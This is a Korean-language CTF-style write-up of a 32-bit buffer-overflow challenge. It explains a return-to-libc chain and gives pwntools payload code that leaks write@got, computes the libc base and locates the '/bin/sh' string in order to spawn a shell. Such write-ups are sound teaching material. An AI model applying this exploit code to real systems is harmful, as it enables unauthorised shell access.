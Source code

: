 해당 코드에서는 `system`함수와 `/bin/sh`의 문자열이 보이지 않는다.

```C
char buf[0x40] = {};
read(0, buf, 0x400);
```

`buf`의 공간은 0x40인데 `read`는 총 0x400을 진행하므로 해당 부분에서 버퍼 오버플로우가 발생한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/196335754-7f8f1aa4-b5b8-4a6c-91f3-18431b82e658.jpg" width = 450>
</p>

* 위 빨간 네모칸을 통해서 `[ebp-0x44]` 위치에 buf에 할당하고 0x400크기 만큼 `read`한다.

* 아래 빨간 네모칸을 통해서 `[ebp-0x44]`에 해당하는 buf를 buf의 크기인 **0x40**만큼 `write`한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/196336809-97546061-906f-4c15-86b0-1bda34d100ad.jpg" width = 340>
</p>

1. system 주소 계산을 위한 **GOT 출력**
2. `/bin/sh` 문자열
3. 출력된 got를 통한 **system 주소**

### 1. GOT 출력

`ret`까지 dummy값으로 채우고 `write`함수를 이용하여 인자를 `write@got`를 넣는다면 GOT 출력이 된다.

`write`함수는 3개의 인자를 필요로 하기에 `[pop edi, pop esi, pop edx, ret]`를 찾아야 했지만, 찾을 수 없었다.

**32bit 함수 호출 규약을 확인해보면 32bit에서는 인자의 이름이 중요하지 않기에 pop 개수만 맞추기만 하면 된다.**

또한, 64bit 아키텍쳐와 다르게 32bit에서는 순서가 **함수 호출 -> 가젯 -> 인자** 순서인 것을 알아야 한다.

이후, `system`과 `/bin/sh`을 보내야 하기에 main을 다시 호출하여 페이로드를 전송한다.

```python
# [1] Read Got Leak

payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pppr) # anything three pops
payload += p32(1) + p32(write_got) + p32(4) + p32(main)
p.send(payload)

write = u32(p.recvuntil(b'\xf7')[-4:]) 
log.info(hex(write))
```

### 2. /bin/sh 문자열

해당 문자열을 bss 공간에 넣어서 진행할 수 있지만, 한 줄로 `/bin/sh`의 offset을 알 수 있다.

got 출력을 통해 libc_base를 구할 수 있으므로 해당 offset에서 libc_base를 더하면 `/bin/sh`의 문자열 주소를 알 수 있다.

```python
binsh_offset = list(libc.search(b'/bin/sh\x00'))[0]
```
